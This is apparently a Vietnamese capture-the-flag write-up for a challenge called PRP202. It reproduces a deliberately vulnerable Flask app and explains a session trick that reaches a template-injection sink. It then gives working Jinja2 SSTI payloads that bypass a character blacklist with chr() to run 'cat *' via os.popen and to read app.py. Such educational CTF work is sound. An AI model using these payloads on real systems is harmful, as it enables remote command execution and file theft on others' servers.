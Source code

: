# PRP202

> Một bài hay và cực khó với mình, chả trách người anh T giấu tên cứ bảo làm thử<br>
> 2 ngày để làm, nhiều lần thất bại, nhưng kết quả thật xứng đáng

## [Source code](https://github.com/phucdc-noob/FUSec-Write-Ups/blob/main/PRP202.py) and analysis

### Source code
Bắt đầu vào bài, tại trang index, Ctrl U lên thấy source code Flask của web

```python
app = Flask(__name__, template_folder="template")
SESSION_TYPE = "filesystem"
app.config.from_object(__name__)
Session(app)
authCode = "C4n 1 Trust Y0u? Player "


# Our bot detected that some users had gained access to the system by malicious function, so we decided to ban it.
blacklist = ["'", '"', "request", "readlines", "+", "%2b", "%22", "%27", "linecache"]


def authCheck(input):
    if session.get(input) == None:
        return ""
    return session.get(input)


@app.route("/", methods=["GET", "POST"])
def index():
    try:
        session.pop("userCode")
        session.pop("winner")
    except:
        pass
    if request.method == "POST":
        ok = request.form["ok"]
        for ban in blacklist:
            if ban in request.form["name"]:
                return render_template_string("Hacker Alert!!!")
        session["userCode"] = request.form["name"]
        if ok == "Let's play!":
            session["check"] = "access"
            # bypass this? No way haha :D
            winner = "cocailonditconbamay"
            session["winner"] = winner
            return render_template_string(
                "Generating winner hash...<script>setInterval(function(){ window.location='/doanxem'; }, 500);</script>"
            )
    return render_template("index.html")


@app.route("/doanxem", methods=["GET", "POST"])
def doanxem():
    try:
        if authCheck("check") == "":
            return render_template_string(authCode + authCheck("userCode"))
        else:
            if request.method == "POST":
                winner_input = request.form["winner"]
                if winner_input == authCheck("winner"):
                    mess = (
                        "You are the real winner!!!!!!!!!! "
                        + authCheck("userCode")
                        + ", here your flag: https://youtu.be/dQw4w9WgXcQ"
                    )
                elif winner_input != authCheck("winner"):
                    mess = "Wrong! You die!<script>setInterval(function(){ window.location='/choilai'; }, 1200);</script>"
                return render_template_string(mess)
            return render_template("doanxem.html")
    except:
        pass
    return render_template_string(authCode + authCheck("userCode"))


@app.route("/choilai")
def reset_access():
    try:
        session.pop("check")
        return render_template_string(
            "You got an Extra Change. Gud luck :D!!!!!!<script>setInterval(function(){ window.location='/'; }, 500);</script>"
        )
    except:
        pass
    return render_template_string(authCode + authCheck("userCode"))


if __name__ == "__main__":
    app.secret_key = "###########"
    serve(app, host="0.0.0.0", port=8900)
```

### Analysis

Có `render_template_string()` nên rất dễ đoán đây là [SSTI](https://portswigger.net/research/server-side-template-injection)

Nhưng vì đã bị chặn `request.args` nên chắc phải inject từ một input nào đó :v

Review lại source code thì ta thấy có 2 chỗ `render_template_string()` cần sử dụng `authCheck("userCode")`, chính là cái tên ta nhập ở index

Ở `doanxem()` ta thấy `mess` là một đoạn code chuyển hướng sang `/choilai`

Sang đến `choilai()` thì ta thấy rằng nó sẽ `pop` cái mục `check` của session data, vậy câu hỏi ở đây là, nếu như ta để cho `doanxem` gửi một request sang `/choilai`, nhưng trước khi `/choilai` kịp render, ta drop cái request đó? Tất nhiên cái `session.pop("check")` vẫn được thực thi, nhưng không render. Và nếu ta gửi tiếp một request của `doanxem` vào `/choilai`, điều gì sẽ xảy ra? `session.pop()` sẽ lỗi vì đã pop trước đó, nên giờ không còn gì mà pop, và thay vì render ra chuyển hướng về index, thì đoạn render cuối sẽ được thực thi.

Đã rõ cách để trigger template, thử nhập `{{7*7}}` ở index và làm các bước như trên:

![7*7](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/PRP202_1.png)

## Exploit

Vậy là đã rõ, bây giờ việc cần làm là tạo ra payload, trước tiên, hãy review cái black list của source code đã:

```python
blacklist = ["'", '"', "request", "readlines", "+", "%2b", "%22", "%27", "linecache"]
```

Đoạn này khá là khó, vì black list chứa những kí tự và từ khóa phổ biến để tạo payload SSTI

Suy nghĩ mãi làm thế nào để tạo payload thì người anh TungDLM bảo `chr`, sáng dạ thêm một tí

Cụ thể thì ta sẽ dùng `chr()` để tạo các kí tự trong string và ghép chúng lại, nhưng trước tiên, phải define nó

Thử nhập `().__class__.__base__.__subclasses__()` để list các subclass và mình thấy, tại vị trí 80 có `<class '_frozen_importlib._ModuleLock'>`, có thể sử dụng nó để define `chr`:

```python
{% set ().__class.__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.chr %}
```

Đoạn này phải cảm ơn 3 chữ `s e t` của anh TaiDH, một pro đã giải bài này trong 15 phút, trước cả mình

Ok, để đoạn define ở đó, bây giờ đến đoạn payload chính, có rất nhiều hướng làm:

### Sử dụng `cycler`, `__doc__` và `replace` (TungDLM):

```python
{{cycler.__init__.__globals__.os.popen(().__doc__[36:41].replace(chr(97),chr(99)).replace(chr(114),chr(97)).replace(chr(103),chr(116)).replace(chr(117),chr(32)).replace(chr(109),chr(42))).read()}}
```

Dễ hiểu là, chúng ta sẽ lợi dụng đoạn `__doc__` của `Tuple`, ví `__doc__` là một String nên ta chỉ việc cắt một đoạn của nó ra, `replace()` để thay thế các kí tự, sử dụng `chr()` để thay cho việc dùng `''/""`. Nhờ đó tạo được câu lệnh để `os.open()` thực thi (`cat *`) và in ra tại `read()`

Payload hoàn chỉnh:

```python
{% set chr = ().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.chr %}{{cycler.__init__.__globals__.os.popen(().__doc__[36:41].replace(chr(97),chr(99)).replace(chr(114),chr(97)).replace(chr(103),chr(116)).replace(chr(117),chr(32)).replace(chr(109),chr(42)))}}
```

### Sử dụng `__add__` (by me):

```python
{{().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.open(chr(97).__add__(chr(112).__add__(chr(112).__add__(chr(46).__add__(chr(112).__add__(chr(121)))))))}}
```

Tại đây mình sử dụng `__add__` để nối các kí tự thành chuỗi và `open()` để mở file, không khuyến khích làm theo, khổ dâm lắm :'( 

Payload hoàn chỉnh:

```python
{% set chr = ().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.chr %}{{().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.open(chr(97).__add__(chr(112).__add__(chr(112).__add__(chr(46).__add__(chr(112).__add__(chr(121)))))))}}
```

## Flag:

![flag](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/PRP202_2.png)

Flag: `FUSEC{@@@@@@Th3_n3Xt_l3v3l_pL4y!!!!!!!!}`

> Rất có thể có nhiều cách khác, vì anh TungDLM đã để nhả

> Cảm ơn anh TungDLM và anh TaiDH đã hỗ trợ trong quá trình giải bài này

## References:

- [https://doantung99.medium.com/fpt-night-wolf-ctf-writeup-de43925ed84b](https://doantung99.medium.com/fpt-night-wolf-ctf-writeup-de43925ed84b), WU của anh TungDLM trong giải NightWolf-CTF do SAS tổ chức, trong đó có bài XSMB, cùng SSTI tương tự, tại bài đó, anh Tùng có đính kèm 2 link tham khảo
    
- [https://chowdera.com/2020/12/20201221231521371q.html](https://chowdera.com/2020/12/20201221231521371q.html), đây là bài viết mình tham khảo rất rất nhiều, chi tiết và có thêm 3 đoạn code viết bằng python giúp tìm vị trí các class dễ hơn, một số trick bypass filter, nên tham khảo

- [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection), đây là bài viết của Jame Kettle về SSTI, nếu nhớ không nhầm chính ông này nghiên cứu ra SSTI, nên đọc nếu chưa biết nhiều về SSTI
